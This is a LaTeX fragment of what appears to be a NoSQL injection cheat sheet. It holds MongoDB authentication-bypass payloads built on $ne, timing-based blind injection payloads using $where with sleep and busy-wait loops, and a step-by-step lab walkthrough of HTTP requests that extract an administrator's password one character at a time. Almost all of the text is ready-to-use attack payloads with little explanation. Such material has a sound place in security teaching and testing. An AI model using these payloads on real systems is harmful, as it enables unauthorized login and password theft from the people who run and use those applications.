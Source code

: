 \documentclass[12pt]{article}
\begin{document}
\subsection{JSON Variations}

\begin{lstlisting}
# Single quotes instead of double quotes
{'username': {'$ne': 'invalid'}}

# No quotes around keys
{username: {$ne: "invalid"}}

# Mixed quoting
{"username": {'$ne': "invalid"}}
\end{lstlisting}

\subsection{Timing-Based Blind NoSQL}

\begin{lstlisting}
# Timing attack with sleep
{"$where": "sleep(5000)"}
{"$where": "function() { var waitTill = new Date(new Date().getTime() + 5000); while (waitTill > new Date()) {}; return true; }"}

# Conditional timing
{"$where": "if(this.password[0] == 'a') { sleep(5000) }"}
admin' && function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
\end{lstlisting}

\section{Examples}

\subsection{Lab Example 1: Extract Administrator Password}

\begin{lstlisting}
# Step 1: Test for injection
GET /user/lookup?user=wiener' HTTP/1.1

# Step 2: Test boolean conditions
GET /user/lookup?user=wiener'+%26%26+'1'%3d%3d'2 HTTP/1.1
GET /user/lookup?user=wiener'+%26%26+'1'%3d%3d'1 HTTP/1.1

# Step 3: Find password length
GET /user/lookup?user=administrator'+%26%26+this.password.length+%3c+30+||+'a'%3d%3d'b HTTP/1.1

# Step 4: Extract password characters
GET /user/lookup?user=administrator'+%26%26+this.password[0]%3d%3d'a'+||+'a'%3d%3d'b HTTP/1.1
\end{lstlisting}
\end{document}
